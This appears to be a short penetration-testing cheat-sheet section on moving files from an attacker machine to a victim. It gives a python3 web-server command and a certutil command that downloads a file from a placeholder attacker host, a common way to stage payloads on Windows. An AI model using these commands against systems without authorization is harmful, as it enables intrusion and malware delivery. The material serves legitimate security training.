 #  Transferring Files

In many engagements you will need to be able to copy files between the victim machine and attacking machine.  This section outlines a number of common methods for transferring files for both Windows and Linux.  Note that this will usually rely on having the necessary files hosted on a webserver. This can be achieved by using python3 to create a temporary web server to host files on the attacker machine:
`python3 -m http.server 80`

## Windows 

### CertUtil.exe

CertUtil can be used to download files from a web server using the following command:

`certutil -urlcache -split -f "http://ip-addr:port/NameOfHostedFile" <output-file-name>`
